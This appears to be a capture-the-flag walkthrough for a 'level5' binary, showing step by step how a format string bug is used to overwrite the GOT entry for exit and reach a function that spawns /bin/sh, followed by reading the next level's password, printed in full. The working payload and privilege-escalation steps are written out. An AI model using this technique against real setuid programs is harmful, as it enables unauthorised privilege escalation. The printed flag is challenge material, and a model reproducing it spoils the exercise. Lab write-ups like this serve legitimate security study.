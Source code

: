 # Level 5 Walkthrough

1. **Connect to the target machine**

	```bash
	ssh level5@<vm-ip> -p 4242
	```

2. **Check the files**

	```bash
	ls -l
	```

	Output:

	```
	-rwsr-s---+ 1 level6 users 5220 Mar  6  2016 level5
	```

3. **Test the binary**

	```bash
	./level5
	```

	It waits for input, echoes it back, and exits.

4. **Copy the binary locally for analysis**

	```bash
	scp -P 4242 level5@<vm-ip>:/home/user/level5/level5 .
	```

5. **Disassemble the binary with GDB**

	```bash
	gdb level5
	```

	**Main function**:

	```
	0x0804850a <+6>: call   0x80484c2 <n>
	```

	**Function `n`**:

	* Reads input with `fgets`
	* Prints it with `printf`
	* Calls `exit@plt`

	**Function `o`**:

	```
	0x080484a4 <+0>: system("/bin/sh");
	```

	We want execution to jump to `o()` instead of calling `exit()`.

6. **Find the GOT entry for `exit`**

	From GDB:

	```bash
	x/i 0x80483d0
	```

	Output:

	```
	0x80483d0 <exit@plt>: jmp *0x8049838
	```

	The GOT entry is at **`0x08049838`**.

7. **Find our argument offset for format string**

	```bash
	echo "AAAA %x %x %x %x" | ./level5
	```

	Output:

	```
	AAAA 200 b7fd1ac0 b7ff37d0 41414141
	```

	Our input appears at position **4**.

8. **Plan the exploit**

	* Address to overwrite: `0x08049838` (little-endian: `\x38\x98\x04\x08`)
	* Value to write: address of `o()` = `0x080484a4`
	* `%n` writes the number of characters printed so far
	* We pad output so that `%n` writes `0x080484a4`
	* Offset = `%4$n`

9. **Execute the payload**

	```bash
	(printf '\x38\x98\x04\x08'; echo '%134513824d%4$n'; cat) | ./level5
	```

10. **Verify shell and escalate**

	```bash
	whoami
	```

	Output:

	```
	level6
	```

11. **Read the password**

	```bash
	cat /home/user/level6/.pass
	```

	Output:

	```
	d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
	```
